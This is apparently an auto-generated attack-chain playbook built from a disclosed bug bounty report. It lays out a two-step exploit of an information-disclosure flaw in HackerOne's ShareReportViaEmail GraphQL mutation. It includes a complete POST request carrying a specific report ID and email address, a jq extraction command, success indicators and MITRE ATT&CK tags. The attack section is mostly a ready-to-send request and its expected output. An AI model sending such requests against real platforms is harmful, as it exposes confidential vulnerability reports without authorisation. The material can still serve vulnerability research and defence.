

# Information Disclosure via Inadequate Redaction in HackerOne ShareReportViaEmail GraphQL Endpoint

Multi-stage attack chain demonstrating a complete attack workflow to exploit an information disclosure vulnerability in the HackerOne platform's GraphQL endpoint.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- HackerOne platform (hackerone.com)
- GraphQL endpoint at /graphql
- HTTP/2 support
- Known report ID (e.g., from prior access or enumeration)

### Initial Access Requirements

- Network access to hackerone.com
- Valid session or authentication if required for the endpoint (in this case, the mutation may require authenticated access to specific reports)
- Prior knowledge of a report ID

## Detailed Attack Procedures

### Step 1: Execute ShareReportViaEmail Mutation

procedure: [[procedures/Exploit-Inadequate-Redaction-in-ShareReportViaEmail-Mutation]]

**Objective**: Send a GraphQL mutation to the ShareReportViaEmail endpoint using a known report ID to trigger the response containing potentially unredacted data.

**Instructions**: Use the [[commands/share-report-via-email-graphql-mutation]] command to send the POST request to the /graphql endpoint. This mutation attempts to share a report via email but exposes sensitive details in the response.

```bash
POST /graphql HTTP/2
Host: hackerone.com
{
 "operationName":"ShareReportViaEmail",
 "variables":{
  "product_area":"reports",
  "product_feature":"inbox",
  "reportId":"gid://hackerone/Report/2139856",
  "message":"can we disclose",
  "emails":["iambouali@wearehackerone.com"]
 },
 "query":"mutation ShareReportViaEmail($reportId: ID!,$message: String!,$emails: [String!]!) {\n shareReportViaEmail(\n input: {report_id: $reportId,message:$message ,emails:$emails}\n ) {\n was_successful\n report{impact title vulnerability_information} errors {\n edges {\n node {\n id\n error_code\n field\n message\n __typename\n }\n __typename\n }\n __typename\n }\n __typename\n }\n}\n"
}
```

**Expected Output**: A JSON response from the GraphQL endpoint indicating success and including report details.

**Success Indicators**:
- HTTP 200 response
- "was_successful": true in the response
- Presence of "report" object with fields like impact, title, and vulnerability_information

### Step 2: Observe Unredacted Response

procedure: [[procedures/Exploit-Inadequate-Redaction-in-ShareReportViaEmail-Mutation]]

**Objective**: Analyze the GraphQL response to identify and extract sensitive information that was not properly redacted, such as JIRA references in the impact field.

**Instructions**: Inspect the response from the previous step, focusing on the "impact" field within the "report" object. Look for unredacted elements like internal JIRA ticket references or other confidential vulnerability details.

No additional command is needed beyond parsing the JSON response from Step 1. Use tools like jq for extraction if automating:

```bash
echo 'response_json' | jq '.data.shareReportViaEmail.report.impact'
```

**Expected Output**: The impact field contains visible sensitive data, e.g., "This issue relates to JIRA-12345" instead of redacted placeholders.

**Success Indicators**:
- Sensitive information (e.g., JIRA references) visible in the impact field
- Confirmation that redaction failed, exposing confidential report details

## Attack Chain Summary

### Key Achievements

1. Successful execution of the ShareReportViaEmail mutation without errors
2. Disclosure of unredacted sensitive information in the GraphQL response
3. Demonstration of confidentiality bypass, allowing unauthorized access to vulnerability details

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Data from Information Repositories]] Data from Information Repositories

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
